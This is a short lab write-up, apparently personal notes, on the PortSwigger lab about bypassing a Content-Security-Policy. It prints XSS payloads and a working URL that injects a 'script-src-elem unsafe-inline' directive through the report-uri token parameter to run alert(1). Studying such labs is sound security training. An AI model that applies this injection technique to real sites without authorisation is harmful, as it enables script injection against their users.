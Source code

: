 ```
<img src=1 onerror=alert(1)>
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/3379d5ee-26db-425f-968b-b3ad450e870c)


CSP header and our alert didn’t execute
• In Burp Proxy, observe that the response contains a Content-Security-Policy header, and the report-uri directive contains a parameter called token. Because you can control the token parameter, you can inject your own CSP directives into the policy. 

From <https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-csp-bypass> 

![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/ff380230-381b-4a3a-857e-c9292dfc1d5a)




```
https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27
```

```
?search=<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline'
```

From <https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-csp-bypass> 

We executed alert(1)

![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/a359fbee-12b5-4a19-9151-f3faca6ce861)


